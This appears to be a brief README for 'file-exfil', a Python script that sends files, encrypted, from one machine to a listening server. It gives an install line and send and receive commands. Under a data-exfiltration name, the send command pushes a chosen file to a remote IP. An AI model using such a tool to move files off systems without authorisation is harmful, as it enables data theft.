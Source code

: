 # file-exfil

Using the cryptography module to send files over a network encrypted.  

### Install cryptography  
`python3 -m pip install cryptography` 

### Running  

Receive a file:    
`python3 exfil.py -s -p <port> -f nameFile2save.txt`  
Send a file:  
`python3 exfil.py -c -i <server_ip> -p <port> -f file2send.txt`  
